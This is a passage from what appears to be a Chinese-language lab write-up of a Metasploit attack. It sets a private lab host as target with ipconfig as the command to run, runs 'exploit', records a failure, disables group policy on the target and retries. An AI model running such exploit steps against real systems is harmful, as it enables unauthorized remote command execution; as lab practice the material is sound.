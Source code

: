 ```shell
 set RHOSTS 192.168.228.134
 #查看ip地址
 set COMMAND ipconfig
```   
攻击：   
```shell
 exploit
```   
未成功。   
![Alt text](image-20.png)   
尝试关闭组策略：   
![Alt text](image-21.png)   
重启。   
重新攻击：   
```shell
 exploit
```   